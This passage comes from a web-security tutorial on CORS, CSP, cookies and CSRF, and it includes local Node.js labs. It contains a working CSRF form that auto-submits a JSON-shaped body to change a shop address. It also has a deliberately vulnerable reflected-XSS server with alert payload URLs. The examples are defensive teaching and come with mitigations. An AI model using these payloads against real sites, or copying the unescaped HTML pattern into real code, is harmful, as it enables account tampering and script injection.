6. **Mitigation:** pin the exact file with **SRI**: `<script src="https://cdn.widgetvendor.example/chat.js" integrity="sha384-..." crossorigin="anonymous">`. The browser refuses to run the script if its hash differs. Self-host critical third-party code where licensing allows, keep `connect-src` and `form-action` tight, and keep third-party scripts off payment pages (or isolate them in a cross-origin iframe). Note that `'strict-dynamic'` extends trust to scripts loaded by trusted scripts, so a compromised loader can pull in anything.

### CSRF against an authenticated JSON API

1. **State:** `https://shop.example/api/address` accepts `POST` with a JSON body and authenticates with a session cookie that has no `SameSite` attribute. The developer assumes "JSON means preflight, so CORS protects us". The server parses the body as JSON regardless of `Content-Type`.
2. **Attack:** evil.example submits a form with `enctype="text/plain"` and a single field crafted so the body is valid JSON:

```html title="text/plain form that produces a JSON body"
<form method="POST" action="https://shop.example/api/address" enctype="text/plain">
  <input name='{"street":"1 Attacker Way","ignore":"' value='"}' type="hidden" />
</form>
<script>
  document.forms[0].submit();
</script>
```

The browser encodes this as `{"street":"1 Attacker Way","ignore":"="}`, which is valid JSON.

3. **Browser checks:** a form POST with `text/plain` is a simple request, so there is no preflight. Whether the cookie is attached depends on the browser: Chromium treats the attribute-less cookie as `Lax` and normally withholds it on this cross-site POST. One exception: for cookies set within the last two minutes, Chromium still sends them on top-level cross-site POSTs (the "Lax+POST" mitigation). A browser that does not apply the `Lax` default may send it at any time.
4. **Mechanism:** none of SOP, CORS or CSP. Only cookie policy and server validation are relevant.
5. **Result:** in a browser that sends the cookie, the address is changed. The attacker cannot read the response, and does not need to.
6. **Mitigation:** set `SameSite=Lax` or `Strict` explicitly; reject requests whose `Content-Type` is not `application/json`; validate `Origin` or `Sec-Fetch-Site` on all state-changing requests; and use a CSRF token for cookie-authenticated endpoints.

## Hands-on experiments

These experiments use Node.js 18 or later with no dependencies. Run them on your own machine only. The XSS server is deliberately vulnerable.

### Experiment 1: requests are sent, reads are blocked

Save this as `servers.mjs`. It starts an app on port 3000 and an API on port 4000, which are cross-origin but same-site.

```js title="servers.mjs"
import http from 'node:http';

const CORS_ENABLED = process.env.CORS === 'on';
const ALLOWED_ORIGINS = new Set(['http://localhost:3000', 'http://127.0.0.1:3000']);

const page = `<!doctype html>
<meta charset="utf-8" />
<title>CORS lab</title>
<button id="simple">1. Simple GET</button>
<button id="json">2. JSON POST (preflighted)</button>
<button id="creds">3. GET with credentials</button>
<pre id="out"></pre>
<script type="module">
  const out = document.getElementById('out');
  const log = (msg) => (out.textContent += msg + '\\n');
  async function run(label, init) {
    try {
      const res = await fetch('http://localhost:4000/api/data', init);
      log(label + ': ' + res.status + ' ' + (await res.text()));
    } catch (err) {
      log(label + ': ' + err.name + ': ' + err.message);
    }
  }
  document.getElementById('simple').onclick = () => run('simple');
  document.getElementById('json').onclick = () =>
    run('json', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: '{"x":1}' });
  document.getElementById('creds').onclick = () => run('creds', { credentials: 'include' });
</script>`;

// App origin: http://localhost:3000
http
  .createServer((req, res) => {
    res.writeHead(200, { 'Content-Type': 'text/html; charset=utf-8' });
    res.end(page);
  })
  .listen(3000, () => console.log('app  -> http://localhost:3000'));

// API origin: http://localhost:4000
http
  .createServer((req, res) => {
    const origin = req.headers.origin;
    console.log(`[api] ${req.method} ${req.url} origin=${origin ?? '-'} cookie=${req.headers.cookie ?? '-'}`);

    if (req.url === '/login') {
      res.writeHead(200, {
        'Set-Cookie': 'session=demo123; HttpOnly; SameSite=Lax; Path=/',
        'Content-Type': 'text/plain',
      });
      return res.end('Logged in. Cookie set for localhost.');
    }

    const headers = { Vary: 'Origin' };
    if (CORS_ENABLED && origin && ALLOWED_ORIGINS.has(origin)) {
      headers['Access-Control-Allow-Origin'] = origin;
      headers['Access-Control-Allow-Credentials'] = 'true';
    }

    if (req.method === 'OPTIONS') {
      if (headers['Access-Control-Allow-Origin']) {
        headers['Access-Control-Allow-Methods'] = 'GET, POST';
        headers['Access-Control-Allow-Headers'] = 'Content-Type';
        headers['Access-Control-Max-Age'] = '600';
      }
      res.writeHead(204, headers);
      return res.end();
    }

    res.writeHead(200, { ...headers, 'Content-Type': 'application/json' });
    res.end(JSON.stringify({ secret: 'balance: 1337', method: req.method }));
  })
  .listen(4000, () => console.log('api  -> http://localhost:4000'));
```

Run `node servers.mjs`, open `http://localhost:3000` and click **1. Simple GET**:

- The page logs `TypeError: Failed to fetch` (Chrome) or `NetworkError when attempting to fetch resource` (Firefox).
- The terminal logs `[api] GET /api/data origin=http://localhost:3000`. **The request reached the server and the server responded.** The browser received the response and refused to hand it to script.

Click **2. JSON POST**. The terminal shows only `[api] OPTIONS /api/data`. The preflight got a `204` without CORS headers, so the browser never sent the `POST`. Compare the two to see the difference between a blocked read and a blocked request.

Restart with `CORS=on node servers.mjs` (in PowerShell: `$env:CORS='on'; node servers.mjs`). Now both buttons succeed, and the terminal shows `OPTIONS` followed by `POST` for the second. Click it again within 600 seconds and the `OPTIONS` disappears: the preflight is cached.

### Experiment 2: origin is not site

With `CORS=on` still running, visit `http://localhost:4000/login` in a tab to set the `SameSite=Lax` cookie. Then:

1. On `http://localhost:3000`, click **3. GET with credentials**. The terminal shows `cookie=session=demo123`. Ports 3000 and 4000 are **cross-origin** (so CORS had to approve the read) but **same-site** (so the `Lax` cookie was sent on a `fetch()`).
2. Open `http://127.0.0.1:3000` instead and click the same button. The page still talks to `http://localhost:4000`, and CORS still approves it because `http://127.0.0.1:3000` is in the allowlist. But the terminal shows `cookie=-`. `127.0.0.1` and `localhost` are different sites, so the `Lax` cookie is withheld from this cross-site `fetch()`.

CORS approved both reads, but the cookie policy produced different results. That is the "CORS does not override cookie policy" rule in action.

### Experiment 3: XSS with and without CSP

Save this as `xss.mjs`:

```js title="xss.mjs (deliberately vulnerable, local use only)"
import http from 'node:http';
import crypto from 'node:crypto';

const CSP_MODE = process.env.CSP ?? 'off'; // off | report | on

http
  .createServer((req, res) => {
    const url = new URL(req.url, 'http://localhost:5000');

    if (url.pathname === '/csp-report') {
      let body = '';
      req.on('data', (chunk) => (body += chunk));
      req.on('end', () => {
        console.log('[csp-report]', req.headers['content-type'], body);
        res.writeHead(204).end();
      });
      return;
    }

    const q = url.searchParams.get('q') ?? '';
    const nonce = crypto.randomBytes(16).toString('base64');
    const policy = `script-src 'nonce-${nonce}' 'strict-dynamic'; object-src 'none'; base-uri 'none'; report-uri /csp-report`;

    const headers = { 'Content-Type': 'text/html; charset=utf-8' };
    if (CSP_MODE === 'on') headers['Content-Security-Policy'] = policy;
    if (CSP_MODE === 'report') headers['Content-Security-Policy-Report-Only'] = policy;

    res.writeHead(200, headers);
    // VULNERABLE: q is inserted into HTML without encoding.
    res.end(`<!doctype html>
<meta charset="utf-8" />
<title>Search</title>
<h1>Results for: ${q}</h1>
<script nonce="${nonce}">console.log('trusted app script ran');</script>`);
  })
  .listen(5000, () => console.log(`xss lab -> http://localhost:5000 (CSP=${CSP_MODE})`));
```

Run `node xss.mjs` and open this URL, which carries `` URL-encoded:

```text
http://localhost:5000/?q=%3Cimg%20src%3Dx%20onerror%3D%22alert(document.domain)%22%3E
```

The alert fires: reflected XSS. Now restart with `CSP=on` and reload the same URL:

- No alert. The console shows a violation for `script-src-attr` (or `script-src` in some browsers) on the inline event handler.
- `trusted app script ran` still logs, because the legitimate script carries the per-response nonce.
- The terminal logs a `[csp-report]` with `application/csp-report` and the violated directive.
- The broken image is still rendered. CSP blocked the script, not the injection.

Try `?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E` as well: blocked for lacking a nonce. Then try `CSP=report`: the alert fires again, but reports still arrive. That is Report-Only mode.

Finally, fix the actual bug by encoding the input. CSP becomes the backstop rather than the only defence:

```js title="The real fix: contextual output encoding"
const escapeHtml = (s) =>
  s.replace(/[&<>"']/g, (c) => ({ '&': '&amp;', '<': '&lt;', '>': '&gt;', '"': '&quot;', "'": '&#39;' })[c]);

// ...
res.end(`<h1>Results for: ${escapeHtml(q)}</h1>`);
```

## Debugging browser security with DevTools

### Where to look

- **Network panel.** Select a request and open **Headers** to see the request's `Origin`, `Sec-Fetch-*` and `Cookie` headers and the response's `Access-Control-*`, `Content-Security-Policy` and `Cross-Origin-*` headers. Chrome shows preflights as separate rows with the type `preflight`, and you can filter with `method:OPTIONS`. A request marked "CORS error" in the Status column is one where the response arrived but failed the check. The **Cookies** tab on a request shows which cookies were sent and, when you enable "show filtered out request cookies", which were blocked and why (for example, a `SameSite` reason).
- **Console.** CORS and CSP failures are logged here with much more detail than script receives. The CORS messages name the exact failed check. CSP messages name the directive, the blocked URL and the policy.
- **Issues panel.** Chrome groups CORS, CSP, mixed content, cookie and COEP problems with explanations and links to the affected requests.
- **Application panel → Frames.** Selecting a frame shows its URL, origin, whether it is a secure context, whether it is **cross-origin isolated**, and its COOP and COEP values.
- **Console context selector.** The dropdown at the top of the Console (labelled `top` by default) switches the JavaScript context into an iframe, so you can inspect `window.origin`, `document.domain` and `self.crossOriginIsolated` from inside each frame.

### Reading CORS errors

Chrome's CORS messages follow a pattern, and each maps to one fix:

| Console message contains                                                                              | Cause                                                                          |
| ----------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| "No 'Access-Control-Allow-Origin' header is present on the requested resource"                        | Server sent no CORS headers (often only on errors)                             |
| "The 'Access-Control-Allow-Origin' header has a value '...' that is not equal to the supplied origin" | Allowlist mismatch, trailing slash, wrong scheme or port, or a stale CDN cache |
| "...contains multiple values..., but only one is allowed"                                             | Proxy and app both add the header                                              |
| "...must not be the wildcard '\*' when the request's credentials mode is 'include'"                   | `*` with `credentials: 'include'`                                              |
| "Response to preflight request doesn't pass access control check: It does not have HTTP ok status"    | `OPTIONS` returned 401, 404, 405 or 500                                        |
| "Redirect is not allowed for a preflight request"                                                     | Preflight was redirected                                                       |
| "Request header field x-api-key is not allowed by Access-Control-Allow-Headers in preflight response" | Missing entry in `Access-Control-Allow-Headers`                                |

### A debugging walkthrough

A report comes in: "Saving settings fails in production but works locally." Here is how to work through it.

**Step 1: reproduce and read the console.** The console says:

```text
Access to fetch at 'https://api.example.com/v1/settings' from origin 'https://app.example.com' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: The 'Access-Control-Allow-Origin' header has a value 'https://staging.example.com' that is not equal to the supplied origin.
```

So the request is preflighted (it is a `PUT` with JSON), and the preflight response names the **wrong origin**.

**Step 2: inspect the preflight in the Network panel.** Filter on `method:OPTIONS`, select the row, and look at the response headers. They include `Access-Control-Allow-Origin: https://staging.example.com` and also `Age: 1834` and `X-Cache: HIT`. A CDN served the preflight from cache. There is no `Vary: Origin`.

**Step 3: confirm outside the browser with `curl`.** `curl` ignores CORS, which makes it ideal for seeing exactly what the server returns for a given `Origin`:

```shell title="Replaying the preflight"
curl -si -X OPTIONS https://api.example.com/v1/settings \
  -H 'Origin: https://app.example.com' \
  -H 'Access-Control-Request-Method: PUT' \
  -H 'Access-Control-Request-Headers: content-type' \
  | grep -iE '^(HTTP|access-control|vary|age|x-cache)'
```

```text
HTTP/2 204
access-control-allow-origin: https://staging.example.com
access-control-allow-methods: GET, PUT
access-control-allow-headers: Content-Type
age: 1834
x-cache: HIT
```

Repeating the request with `-H 'Origin: https://staging.example.com'` returns the same cached headers. Adding a cache-busting query string (`?cb=1`) bypasses the CDN and returns the correct `https://app.example.com` value from the origin server. The application logic is correct, and the cache is the problem.

**Step 4: fix and verify.** Add `Vary: Origin` to every API response (including preflights and refusals), make the CDN include `Origin` in its cache key or pass `OPTIONS` through uncached, and purge the cache. Rerun the `curl` command with both origins and confirm each gets its own value. In the browser, disable the cache in the Network panel and retry, then retry with the cache enabled.

The same approach works for the other mechanisms:

```shell title="Checking security headers on a page"
curl -sI https://app.example.com/ \
  | grep -iE '^(content-security-policy|cross-origin|strict-transport|x-frame|x-content-type|referrer-policy|permissions-policy)'
```

For a CSP violation, the console message names the blocked URL and the **effective directive**, so start there: was the resource supposed to load? If so, add the narrowest source that permits it (a nonce, a hash, or a specific host) to that directive, not to `default-src`. If a `<meta>` policy and a header policy both exist, remember that a resource has to pass both, so loosening one may not be enough. For COEP failures, the Issues panel lists each blocked resource, and the fix is a `Cross-Origin-Resource-Policy` header on that resource, a `crossorigin` attribute with CORS on the server, or `credentialless`.

## The complete browser security architecture

Here is how the pieces combine for a single page, `https://app.example.com`, that embeds a third-party widget, calls its own API and a partner API, and is visited by a user who also has an attacker's page open.



Each security decision belongs to exactly one mechanism:

| Decision                                                                    | Responsible mechanism                                                | Configured by                            |
| --------------------------------------------------------------------------- | -------------------------------------------------------------------- | ---------------------------------------- |
| Can script read a frame's DOM, another origin's storage, a canvas's pixels? | SOP                                                                  | Nobody (fixed)                           |
| Can script read a cross-origin `fetch()` response?                          | SOP, relaxed by CORS                                                 | The responding server                    |
| Is a non-simple cross-origin request sent at all?                           | CORS preflight                                                       | The responding server                    |
| Are cookies attached to this request?                                       | Cookie rules (`SameSite`, `Secure`, third-party policy)              | The cookie's setter, plus browser policy |
| Is this request authenticated and the action authorized?                    | **Server-side logic**                                                | Your backend                             |
| Is this forged request rejected?                                            | `SameSite` plus server CSRF checks (token, `Origin`, Fetch Metadata) | Cookie setter and backend                |
| May this page load or run this script, style, image or connection?          | CSP                                                                  | The page's server                        |
| May another site frame this page?                                           | CSP `frame-ancestors` / `X-Frame-Options`                            | The framed page's server                 |
| May a `no-cors` resource be embedded by another origin?                     | CORP                                                                 | The resource's server                    |
| Will this page embed only resources that opted in?                          | COEP                                                                 | The embedding page's server              |
| May cross-origin windows keep a reference to this page?                     | COOP                                                                 | The page's server                        |
| Can this page use `SharedArrayBuffer` and precise timers?                   | Cross-origin isolation (COOP + COEP)                                 | The page's server                        |

## Conclusion

The browser draws its primary boundary around the **origin**: scheme, host and port. The **Same-Origin Policy** stops script from reading across that boundary, while still allowing cross-origin requests and embedding. **CORS** is the server's way of saying "this particular origin may read my responses", enforced by the browser and irrelevant to every non-browser client. **CSP** points the other way: it is the page restricting itself, so that code an attacker smuggles in has nowhere to load from and nowhere to send data. Cookies follow their own **site**-based rules, which is why CSRF needs `SameSite` and server-side checks rather than CORS. CORP, COEP and COOP extend isolation down to embedded resources, window relationships and process memory.

None of these mechanisms is sufficient alone, and several of them only work when the server does its part. Layer them, and make sure each one is doing the job it was designed for.

A practical checklist:

- [ ] Authenticate and authorize every API request on the server. Never treat CORS as access control.
- [ ] Use an exact-match CORS origin allowlist. Never reflect arbitrary origins with credentials, never allow `null`, and always send `Vary: Origin`.
- [ ] Configure CORS in one layer, handle `OPTIONS` before authentication, and include CORS headers on error responses.
- [ ] Set `SameSite=Lax` or `Strict`, `Secure` and `HttpOnly` on session cookies explicitly, and use the `__Host-` prefix where possible.
- [ ] Protect state-changing endpoints with CSRF tokens, `Origin` checks or Fetch Metadata, and reject unexpected `Content-Type` values.
- [ ] Deploy a nonce- or hash-based CSP with `'strict-dynamic'`, `object-src 'none'` and `base-uri 'none'`. Roll it out with Report-Only first and keep reporting on.
- [ ] Send `frame-ancestors 'none'` (or `'self'`) and `X-Frame-Options: DENY`.
- [ ] Encode output contextually, sanitize any HTML you render, avoid `innerHTML` and `dangerouslySetInnerHTML` with untrusted data, and consider Trusted Types.
- [ ] Pin third-party scripts with SRI, minimize them on sensitive pages, and keep `connect-src` tight.
- [ ] Check `event.origin` in every `message` listener, and pass an explicit target origin to `postMessage()`.
- [ ] Send HSTS, `X-Content-Type-Options: nosniff`, a `Referrer-Policy` and a restrictive `Permissions-Policy`.
- [ ] Add CORP to private resources, and COOP to top-level pages, especially those that open popups. Use COOP + COEP if you need `SharedArrayBuffer`.
- [ ] Verify everything with `curl -I` and DevTools, rather than assuming a framework or CDN sends the headers you configured.

## Further reading

**Specifications**

- [HTML Standard: origins](https://html.spec.whatwg.org/multipage/browsers.html#origin), WHATWG
- [HTML Standard: cross-origin objects](https://html.spec.whatwg.org/multipage/nav-history-apis.html#cross-origin-objects), WHATWG
- [Fetch Standard: the CORS protocol](https://fetch.spec.whatwg.org/#http-cors-protocol), WHATWG
- [Content Security Policy Level 3](https://www.w3.org/TR/CSP3/), W3C
- [Reporting API](https://w3c.github.io/reporting/), W3C
- [Public Suffix List](https://publicsuffix.org/)

**MDN Web Docs**

- [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Defenses/Same-origin_policy)
- [Cross-Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS)
- [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP)
- [Content-Security-Policy header reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy)
- [Using HTTP cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies)
- [Cross-Origin-Resource-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Cross-Origin-Resource-Policy), [Cross-Origin-Embedder-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Cross-Origin-Embedder-Policy) and [Cross-Origin-Opener-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Cross-Origin-Opener-Policy)
- [Window.postMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)
- [Site](https://developer.mozilla.org/en-US/docs/Glossary/Site), glossary entry

**web.dev and Chrome for Developers**

- [Understanding "same-site" and "same-origin"](https://web.dev/articles/same-site-same-origin)
- [Mitigate cross-site scripting (XSS) with a strict Content Security Policy](https://web.dev/articles/strict-csp)
- [SameSite cookies explained](https://web.dev/articles/samesite-cookies-explained)
- [Protect your resources from web attacks with Fetch Metadata](https://web.dev/articles/fetch-metadata)
- [Making your website "cross-origin isolated" using COOP and COEP](https://web.dev/articles/coop-coep) and [Why you need "cross-origin isolated" for powerful features](https://web.dev/articles/why-coop-coep)
- [Inspect network activity](https://developer.chrome.com/docs/devtools/network), Chrome DevTools documentation

**OWASP Cheat Sheet Series**

- [Cross-Site Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [Cross Site Scripting Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [Clickjacking Defense](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)
- [HTTP Security Response Headers](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html)
